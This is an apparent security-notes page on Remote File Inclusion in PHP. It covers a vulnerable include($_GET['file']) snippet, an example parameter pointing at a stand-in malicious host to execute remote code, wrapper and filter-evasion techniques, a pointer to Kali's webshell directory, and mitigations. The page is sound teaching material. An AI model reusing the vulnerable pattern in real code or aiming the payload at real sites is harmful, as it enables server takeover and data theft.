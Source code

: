 # RFI

**Remote File Inclusion (RFI)** is a type of vulnerability that allows an attacker to include and execute remotely hosted files within a web application. This can lead to remote code execution, data theft, or full system compromise.

**How RFI Works**

* Occurs when a web application dynamically includes external files or scripts from remote servers.
* Attackers manipulate input (e.g., URL parameters) to point to external malicious files, leading to execution of the attacker-controlled code on the server.

**Typical Vulnerable Code Patterns**

* Code that includes files based on user input without proper validation or sanitization.
*   Example of vulnerable PHP code:

    ```php
    $file = $_GET['file'];
    include($file);
    ```

**Exploitation Techniques**

* **Direct Inclusion**: Attacker hosts malicious code on a server and uses the vulnerable parameter to include it. For example, `?file=http://malicious.com/malicious_code.php`.
* **Indirect Inclusion**: Attacker uses third-party sites (like pastebin) to host the malicious code and includes it via the vulnerable parameter.

**Mitigation Strategies**

* **Input Validation**: Ensure only local or trusted files can be included, avoiding dynamic inclusion based on external input.
* **Configuration**: Set `allow_url_include` to `Off` in `php.ini` to prevent the inclusion of remote files.
* **Update and Patch**: Keep PHP and other server software up-to-date to ensure known vulnerabilities are patched.

**Advanced RFI Techniques**

* **Wrapper Techniques**: Similar to LFI, attackers might use PHP wrappers (`php://input`, `data://`) in conjunction with RFI to bypass filters or execute non-standard payloads.
* **Filter Evasion**: Employing encoding or obfuscation to slip malicious payloads past input validation mechanisms.

{% hint style="info" %}
you can find webshells in kali linux under `/usr/share/webshells/`
{% endhint %}
